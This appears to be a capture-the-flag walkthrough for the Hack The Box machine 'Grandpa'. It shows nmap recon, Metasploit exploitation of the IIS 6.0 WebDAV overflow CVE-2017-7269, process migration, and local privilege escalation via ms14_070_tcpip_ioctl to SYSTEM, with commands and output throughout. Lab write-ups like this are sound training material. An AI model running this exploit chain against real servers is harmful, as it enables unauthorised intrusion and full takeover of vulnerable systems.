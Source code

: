 ```yaml
---
description: Walkthrough (Easy)
---
```


# Grandpa 🟢🟢🟢

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

[https://app.hackthebox.com/machines/grandpa](https://app.hackthebox.com/machines/grandpa)&#x20;

Grandpa is one of the simpler machines on Hack The Box, however it covers the widely-exploited CVE-2017-7269. This vulnerability is trivial to exploit and granted immediate access to thousands of IIS servers around the globe when it became public knowledge.

### Reconnaissance

```bash
nmap -T4 -sVC 10.10.10.14 -oN Nmap
```

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

* Found only port 80 is open and running `IIS httpd 6.0`
* Google `IIS httpd 6.0`  got me WebDAV '`ScStoragePathFromUrl'` Remote Buffer Overflow
* Load `msfconsole`  and search for `ScStoragePathFromUrl` &#x20;

```bash
msf6 > use windows/iis/iis_webdav_scstoragepathfromurl
msf6 > set rhosts 10.10.10.14
msf6 > set lhost tun0
msf6 > run
```

### Migrate to stable process&#x20;

{% code fullWidth="false" %}
```bash
meterpreter > ps

Process List
============

PID   PPID  Name               Arch  Session  User                          Path
---   ----  ----               ----  -------  ----                          ----

968  580   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.
2096  392   vssvc.exe
2328  580   wmiprvse.exe
2396  1484  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.e
2464  580   davcdata.exe       x86   0  

meterpreter > migrate 2396
[*] Migrating from 2636 to 2396...
[*] Migration completed successfully.

meterpreter > press(ctrl+z)
Background session 1? [y/N]  y

```
{% endcode %}

### Previlage Esculation

* Need to find any local exploit work on this session.

```bash
msf6 > use post/multi/recon/local_exploit_suggester

msf6 post(multi/recon/local_exploit_suggester) > set session 1
msf6 post(multi/recon/local_exploit_suggester) > run

#   Name                                           Vulnerable?  Check Result
 -   ----                                         -------------  ------------
 1   exploit/windows/local/ms10_015_kitrap0d             Yes      The service is running, but could not be validated.                                                                      
 2   exploit/windows/local/ms14_058_track_popup_menu     Yes      The target appears to be vulnerable.                                                                                     
 3   exploit/windows/local/ms14_070_tcpip_ioctl          Yes      The target appears to be vulnerable.                                                                                     
 4   exploit/windows/local/ms15_051_client_copy_image    Yes      The target appears to be vulnerable.                                                                                     
 5   exploit/windows/local/ms16_016_webdav               Yes      The service is running, but could not be validated.                                                                      
 6   exploit/windows/local/ppr_flatten_rec               Yes      The target appears to be vulnerable.
```

* Tried but best suits `exploit/windows/local/ms14_070_tcpip_ioctl`

```bash
msf6 > use exploit/windows/local/ms14_070_tcpip_ioctl
msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > sessions

Active sessions
===============

  Id  Name  Type                     Information                           Connection
  --  ----  ----                     -----------                           ----------
  1         meterpreter x86/windows  NT AUTHORITY\NETWORK SERVICE @ GRANP  10.10.16.6:1234 -> 10.10.10.14:1030
                                     A                                     (10.10.10.14)

msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > set session 1
msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > run

meterpreter > ps

Process List
============
1940  392   alg.exe            x86   0        NT AUTHORITY\LOCAL SERVICE    C:\WINDOWS\System32\alg.exe
1968  580   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.
2328  580   wmiprvse.exe       x86   0        NT AUTHORITY\SYSTEM           C:\WINDOWS\system32\wbem\wmiprvse.
2396  1484  w3wp.exe           x86   0        NT AUTHORITY\SYSTEM           c:\windows\system32\inetsrv\w3wp.e
2464  580   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcda

# Got some SYSTEM process so now migrate to SYSTEM
meterpreter > migrate 2328

meterpreter > shell

C:\WINDOWS\system32>whoami
whoami
nt authority\system
```

* Now we are root and have all access over the machine.
* User flag -> C:\Documents and Settings>`type Harry\Desktop\user.txt`
* Root flag -> C:\Documents and Settings>`type Administrator\Desktop\root.txt`

<figure><img src="../.gitbook/assets/image (75).png" alt=""><figcaption></figcaption></figure>
